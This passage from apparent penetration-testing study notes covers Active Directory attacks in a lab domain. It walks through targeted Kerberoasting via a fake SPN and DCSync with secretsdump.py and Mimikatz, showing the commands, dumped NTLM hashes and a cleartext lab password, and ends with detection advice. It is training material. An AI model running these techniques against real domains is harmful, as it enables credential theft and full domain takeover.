CN=Timothy Brown,OU=Operations,OU=Logistics-LAX,OU=Employees,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
CN=Nancy Johansen,OU=Operations,OU=Logistics-HK,OU=Employees,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
CN=Valerie Mcqueen,OU=Operations,OU=Logistics-LAX,OU=Employees,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
CN=Dagmar Payne,OU=HelpDesk,OU=IT,OU=HQ-NYC,OU=Employees,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
PS C:\htb> Add-DomainGroupMember -Identity 'Help Desk Level 1' -Members 'damundsen' -Credential $Cred2 -Verbose
VERBOSE: [Get-PrincipalContext] Using alternate credentials
VERBOSE: [Add-DomainGroupMember] Adding member 'damundsen' to group 'Help Desk Level 1'
Confirming the Added User
A quick check shows that your addition to the group was successful.
PS C:\htb> Get-DomainGroupMember -Identity "Help Desk Level 1" | Select MemberName
MemberName
----------
busucher
spergazed
<SNIP>
damundsen
dpayne
At this point, you should be able to leverage your new group membership to take control over the adunn user. Now, since your imaginary client gave you permission, you can change the password for the damundsen user, but the adunn user is an admin account that cannot be interrupted. Since you have GenericAll rights over this account, you can perform a targeted Kerberoasting attack by modifying the account's servicePrincipalName attribute to create a fake SPN that you can then Kerberoast to ontain the TGS ticket and crack the hash offline.
Creating a Fake SPN
You must be authenticated as a member of the Information Technology group for this to be successful. Since you added damundsen to the Help Desk Level 1 group, you inherited rights via nested group membership. You can now use Set-DomainObject to create the fake SPN. You could use the tool targetedKerberoast to perform this same attack from a Linux host, and it will create a temporary SPN, retrieve the hash, and delete the temporary SPN all in one command.
PS C:\htb> Set-DomainObject -Credential $Cred2 -Identity adunn -SET @{serviceprincipalname='notahacker/LEGIT'} -Verbose
VERBOSE: [Get-Domain] Using alternate credentials for Get-Domain
VERBOSE: [Get-Domain] Extracted domain 'INLANEFREIGHT' from -Credential
VERBOSE: [Get-DomainSearcher] search base: LDAP://ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL/DC=INLANEFREIGHT,DC=LOCAL
VERBOSE: [Get-DomainSearcher] Using alternate credentials for LDAP connection
VERBOSE: [Get-DomainObject] Get-DomainObject filter string:
(&(|(|(samAccountName=adunn)(name=adunn)(displayname=adunn))))
VERBOSE: [Set-DomainObject] Setting 'serviceprincipalname' to 'notahacker/LEGIT' for object 'adunn'
Kerberoasting with Rubeus
If this worked, you should be able to Kerberoast the user using any number of methods and obtain the hash for offline cracking.
PS C:\htb> .\Rubeus.exe kerberoast /user:adunn /nowrap
______ _
(_____ \ | |
_____) )_ _| |__ _____ _ _ ___
| __ /| | | | _ \| ___ | | | |/___)
| | \ \| |_| | |_) ) ____| |_| |___ |
|_| |_|____/|____/|_____)____/(___/
v2.0.2
[*] Action: Kerberoasting
[*] NOTICE: AES hashes will be returned for AES-enabled accounts.
[*] Use /ticket:X or /tgtdeleg to force RC4_HMAC for these accounts.
[*] Target User : adunn
[*] Target Domain : INLANEFREIGHT.LOCAL
[*] Searching path 'LDAP://ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL/DC=INLANEFREIGHT,DC=LOCAL' for '(&(samAccountType=805306368)(servicePrincipalName=*)(samAccountName=adunn)(!(UserAccountControl:1.2.840.113556.1.4.803:=2)))'
[*] Total kerberoastable users : 1
[*] SamAccountName : adunn
[*] DistinguishedName : CN=Angela Dunn,OU=Server Admin,OU=IT,OU=HQ-NYC,OU=Employees,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
[*] ServicePrincipalName : notahacker/LEGIT
[*] PwdLastSet : 3/1/2022 11:29:08 AM
[*] Supported ETypes : RC4_HMAC_DEFAULT
[*] Hash : $krb5tgs$23$*adunn$INLANEFREIGHT.LOCAL$notahacker/LEGIT@INLANEFREIGHT.LOCAL*$ <SNIP>
You have successfully obtained the hash.
Cleanup
There are a few things you need to do:
- Remove the fake SPN you created on the adunn user
- Remove the damundsen user from the Help Desk Level 1 group
- Set the password for the damundsen user back to its original value or have your client set it / alert the user
Removing the Fake SPN
PS C:\htb> Set-DomainObject -Credential $Cred2 -Identity adunn -Clear serviceprincipalname -Verbose
VERBOSE: [Get-Domain] Using alternate credentials for Get-Domain
VERBOSE: [Get-Domain] Extracted domain 'INLANEFREIGHT' from -Credential
VERBOSE: [Get-DomainSearcher] search base: LDAP://ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL/DC=INLANEFREIGHT,DC=LOCAL
VERBOSE: [Get-DomainSearcher] Using alternate credentials for LDAP connection
VERBOSE: [Get-DomainObject] Get-DomainObject filter string:
(&(|(|(samAccountName=adunn)(name=adunn)(displayname=adunn))))
VERBOSE: [Set-DomainObject] Clearing 'serviceprincipalname' for object 'adunn'
Removing from a Group
PS C:\htb> Remove-DomainGroupMember -Identity "Help Desk Level 1" -Members 'damundsen' -Credential $Cred2 -Verbose
VERBOSE: [Get-PrincipalContext] Using alternate credentials
VERBOSE: [Remove-DomainGroupMember] Removing member 'damundsen' from group 'Help Desk Level 1'
True
Confirming the Remove
PS C:\htb> Get-DomainGroupMember -Identity "Help Desk Level 1" | Select MemberName |? {$_.MemberName -eq 'damundsen'} -Verbose
Detection and Remediation
A few recommendations around ACLs include:
- Auditing for and removing dangerous ACLs
Organizations should have regular AD audits performed but also train internal staff to run tools such as BloodHound and identify potentially dangerous ACLs that can be removed.
- Monitor group membership
Visibility into important groups is paramount. All high-impact groups in the domain should be monitored to alert IT staff or changes that could be indicative of an ACL attack chain.
- Audit and monitor for ACL changes
Enabling the Advanced Security Audit Policy can help in detecting unwanted changes, especially Event ID 5136: "A directory service object was modified" which would indicate that the domain object was modified, which could be indicative of an ACL attack.
DCSync
Introduction
DCSync is a technique for stealing the AD password database by using the built-in Directory Replication Service Remote Protocol, which is used by DCs to replicate domain data. This allows an attacker to mimic a DC to retrieve user NTLM password hashes.
The crux of the attack is requesting a DC to replicate passwords via the DS-Replication-Get-Changes-All extended right. This is an extended access control right within AD, which allows for the replication of secret data.
To perform this attack, you must have control over an account that has the rights to perform domain replication. Domain/Enterprise Admins and default domain administrators have this right by default.
Attack Cycle
Viewing Replication Privileges through ADSI Edit

Viewing Group Membership
It is common during an assessment to find other accounts that have these rights, and once compromised, their access can be utilized to retrieve the current NTLM password hash for any domain user and the hashes corresponding to their previous passwords. Here you have a standard user that has been granted the replicating permissions:
PS C:\htb> Get-DomainUser -Identity adunn |select samaccountname,objectsid,memberof,useraccountcontrol |fl
samaccountname : adunn
objectsid : S-1-5-21-3842939050-3880317879-2865463114-1164
memberof : {CN=VPN Users,OU=Security Groups,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL, CN=Shared Calendar
Read,OU=Security Groups,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL, CN=Printer Access,OU=Security
Groups,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL, CN=File Share H Drive,OU=Security
Groups,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL...}
useraccountcontrol : NORMAL_ACCOUNT, DONT_EXPIRE_PASSWORD
Checking Replication Rights
PowerView can be used to confirm that this standard user does indeed have the necessary permissions assigned to their account. You first get the user's SID in the above command and then check all ACLs set on the domain object using Get-ObjectAcl to get the ACLs associated with the object. Here you search specifically for replication rights and check if your user possesses these rights. The command confirms that the user does indeed have the right.
PS C:\htb> $sid= "S-1-5-21-3842939050-3880317879-2865463114-1164"
PS C:\htb> Get-ObjectAcl "DC=inlanefreight,DC=local" -ResolveGUIDs | ? { ($_.ObjectAceType -match 'Replication-Get')} | ?{$_.SecurityIdentifier -match $sid} |select AceQualifier, ObjectDN, ActiveDirectoryRights,SecurityIdentifier,ObjectAceType | fl
AceQualifier : AccessAllowed
ObjectDN : DC=INLANEFREIGHT,DC=LOCAL
ActiveDirectoryRights : ExtendedRight
SecurityIdentifier : S-1-5-21-3842939050-3880317879-2865463114-498
ObjectAceType : DS-Replication-Get-Changes
AceQualifier : AccessAllowed
ObjectDN : DC=INLANEFREIGHT,DC=LOCAL
ActiveDirectoryRights : ExtendedRight
SecurityIdentifier : S-1-5-21-3842939050-3880317879-2865463114-516
ObjectAceType : DS-Replication-Get-Changes-All
AceQualifier : AccessAllowed
ObjectDN : DC=INLANEFREIGHT,DC=LOCAL
ActiveDirectoryRights : ExtendedRight
SecurityIdentifier : S-1-5-21-3842939050-3880317879-2865463114-1164
ObjectAceType : DS-Replication-Get-Changes-In-Filtered-Set
AceQualifier : AccessAllowed
ObjectDN : DC=INLANEFREIGHT,DC=LOCAL
ActiveDirectoryRights : ExtendedRight
SecurityIdentifier : S-1-5-21-3842939050-3880317879-2865463114-1164
ObjectAceType : DS-Replication-Get-Changes
AceQualifier : AccessAllowed
ObjectDN : DC=INLANEFREIGHT,DC=LOCAL
ActiveDirectoryRights : ExtendedRight
SecurityIdentifier : S-1-5-21-3842939050-3880317879-2865463114-1164
ObjectAceType : DS-Replication-Get-Changes-All
If you had certain rights over the user, you could also add this privilege to a user under your control, execute the DCSync attack, and then remove the privileges to attempt to cover your tracks. DCSync replication can be performed using tools such as Mimikatz, Invoke-DCSync, and Impacket's secretsdump.py.
Extracting NTLM Hashes and Kerberos Keys using secretsdump.py
d41y@htb[/htb]$ secretsdump.py -outputfile inlanefreight_hashes -just-dc INLANEFREIGHT/adunn@172.16.5.5
Impacket v0.9.23 - Copyright 2021 SecureAuth Corporation
Password:
[*] Target system bootKey: 0x0e79d2e5d9bad2639da4ef244b30fda5
[*] Searching for NTDS.dit
[*] Registry says NTDS.dit is at C:\Windows\NTDS\ntds.dit. Calling vssadmin to get a copy. This might take some time
[*] Using smbexec method for remote execution
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Searching for pekList, be patient
[*] PEK # 0 found and decrypted: a9707d46478ab8b3ea22d8526ba15aa6
[*] Reading and decrypting hashes from \\172.16.5.5\ADMIN$\Temp\HOLJALFD.tmp
inlanefreight.local\administrator:500:aad3b435b51404eeaad3b435b51404ee:88ad09182de639ccc6579eb0849751cf:::
guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
lab_adm:1001:aad3b435b51404eeaad3b435b51404ee:663715a1a8b957e8e9943cc98ea451b6:::
ACADEMY-EA-DC01$:1002:aad3b435b51404eeaad3b435b51404ee:13673b5b66f699e81b2ebcb63ebdccfb:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:16e26ba33e455a8c338142af8d89ffbc:::
ACADEMY-EA-MS01$:1107:aad3b435b51404eeaad3b435b51404ee:06c77ee55364bd52559c0db9b1176f7a:::
ACADEMY-EA-WEB01$:1108:aad3b435b51404eeaad3b435b51404ee:1c7e2801ca48d0a5e3d5baf9e68367ac:::
inlanefreight.local\htb-student:1111:aad3b435b51404eeaad3b435b51404ee:2487a01dd672b583415cb52217824bb5:::
inlanefreight.local\avazquez:1112:aad3b435b51404eeaad3b435b51404ee:58a478135a93ac3bf058a5ea0e8fdb71:::
<SNIP>
d0wngrade:des-cbc-md5:d6fee0b62aa410fe
d0wngrade:dec-cbc-crc:d6fee0b62aa410fe
ACADEMY-EA-FILE$:des-cbc-md5:eaef54a2c101406d
svc_qualys:des-cbc-md5:f125ab34b53eb61c
forend:des-cbc-md5:e3c14adf9d8a04c1
[*] ClearText password from \\172.16.5.5\ADMIN$\Temp\HOLJALFD.tmp
proxyagent:CLEARTEXT:Pr0xy_ILFREIGHT!
[*] Cleaning up...
You can use the -just-dc-ntlm flag if you only want NTLM hashes or specify -just-dc-user <USERNAME> to only extract data for a specific user. Other useful options include -pwd-last-set to see when each account's password was last changed and -history if you want to dump password history, which may be helpful for offline password cracking or as supplemental data on domain password strength metrics for your client. The -user-status is another helpful flag to check and see if a user is disabled. You can dump the NTDS data with this flag and then filter out disabled users when providing your client with password cracking statistics to ensure that data such as:
- number and % of passwords cracked
- top 10 passwords
- password length metrics
- password re-use
reflect only active user accounts in the domain.
Listing Hashes, Kerberos Keys, and Cleartext Passwords
If you check the files created using the -just-dc flag, you will see that there are three: one containing the NTLM hashes, one containing Kerberos keys, and one that would contain cleartext passwords from the NTDS for any accounts set with reversible encryption enabled.
d41y@htb[/htb]$ ls inlanefreight_hashes*
inlanefreight_hashes.ntds inlanefreight_hashes.ntds.cleartext inlanefreight_hashes.ntds.kerberos
While rare, you see accounts with these settings from time to time. It would typically be set to provide support for applications that use certain protocols that require a user's password to be used for authentication purposes.

When this option is set on a user account, it does not mean that the passwords are stored in cleartext. Instead, they are stored using RC4 encryption. The trick here is that the key needed to decrypt them is stored in the registry and can be extracted by a Domain Admin or equivalent. Tools such as secretsdump.py will decrypt any passwords stored using reversible encryption while dumping the NTDS file either as a Domain Admin or using an attack such as DCSync. If this setting is disabled on an account, a user will need to change their password for it to be stored using one-way encryption. Any passwords set on accounts with this setting enabled will be stored using reversible encryption until they are changed. You can enumerate this by using the Get-ADuser cmdlet.
Enumerating Further
PS C:\htb> Get-ADUser -Filter 'userAccountControl -band 128' -Properties userAccountControl
DistinguishedName : CN=PROXYAGENT,OU=Service Accounts,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
Enabled : True
GivenName :
Name : PROXYAGENT
ObjectClass : user
ObjectGUID : c72d37d9-e9ff-4e54-9afa-77775eaaf334
SamAccountName : proxyagent
SID : S-1-5-21-3842939050-3880317879-2865463114-5222
Surname :
userAccountControl : 640
UserPrincipalName :
You can see that one account, proxyagent, has the reversible encryption option set with PowerView as well:
PS C:\htb> Get-DomainUser -Identity * | ? {$_.useraccountcontrol -like '*ENCRYPTED_TEXT_PWD_ALLOWED*'} |select samaccountname,useraccountcontrol
samaccountname useraccountcontrol
-------------- ------------------
proxyagent ENCRYPTED_TEXT_PWD_ALLOWED, NORMAL_ACCOUNT
Diplaying the Decrypted Password
You will notice the tool decrypted the password and provided you with the cleartext value:
d41y@htb[/htb]$ cat inlanefreight_hashes.ntds.cleartext
proxyagent:CLEARTEXT:Pr0xy_ILFREIGHT!
Performing the Attack with Mimikatz
You can perform the attack with Mimikatz as well. Using Mimikatz, you must target a specific user. Here you will target the built-in administrator account. You could also target the krbtgt account and use this to create a Golden Ticket for persistence.
Also it is important to note that Mimikatz must be ran in the context of the user who has DCSync privileges. You can utilize runas.exe to accomplish this:
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.
C:\Windows\system32>runas /netonly /user:INLANEFREIGHT\adunn powershell
Enter the password for INLANEFREIGHT\adunn:
Attempting to start powershell as user "INLANEFREIGHT\adunn" ...
From the newly spawned PowerShell session, you can perform the attack:
PS C:\htb> .\mimikatz.exe
.#####. mimikatz 2.2.0 (x64) #19041 Aug 10 2021 17:19:53
.## ^ ##. "A La Vie, A L'Amour" - (oe.eo)
## / \ ## /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
## \ / ## > https://blog.gentilkiwi.com/mimikatz
'## v ##' Vincent LE TOUX ( vincent.letoux@gmail.com )
'#####' > https://pingcastle.com / https://mysmartlogon.com ***/
mimikatz # privilege::debug
Privilege '20' OK
mimikatz # lsadump::dcsync /domain:INLANEFREIGHT.LOCAL /user:INLANEFREIGHT\administrator
[DC] 'INLANEFREIGHT.LOCAL' will be the domain
[DC] 'ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL' will be the DC server
[DC] 'INLANEFREIGHT\administrator' will be the user account
[rpc] Service : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)
Object RDN : Administrator
** SAM ACCOUNT **
SAM Username : administrator
User Principal Name : administrator@inlanefreight.local
Account Type : 30000000 ( USER_OBJECT )
User Account Control : 00010200 ( NORMAL_ACCOUNT DONT_EXPIRE_PASSWD )
Account expiration :
Password last change : 10/27/2021 6:49:32 AM
Object Security ID : S-1-5-21-3842939050-3880317879-2865463114-500
Object Relative ID : 500
Credentials:
Hash NTLM: 88ad09182de639ccc6579eb0849751cf
Supplemental Credentials:
* Primary:NTLM-Strong-NTOWF *
Random Value : 4625fd0c31368ff4c255a3b876eaac3d
<SNIP>
```<!-- {% embed footer message="2025 • Created by [d41y](https://github.com/d41y)" %} -->
<div data-embedify data-app="footer" data-option-message="2025 • Created by [d41y](https://github.com/d41y)" style="display:none"></div>
<style>footer { text-align: center; text-wrap: balance; margin-top: 5rem; display: flex; flex-direction: column; justify-content: center; align-items: center; } footer p { margin: 0; }</style><footer><p>2025 • Created by <a href="https://github.com/d41y">d41y</a></p></footer>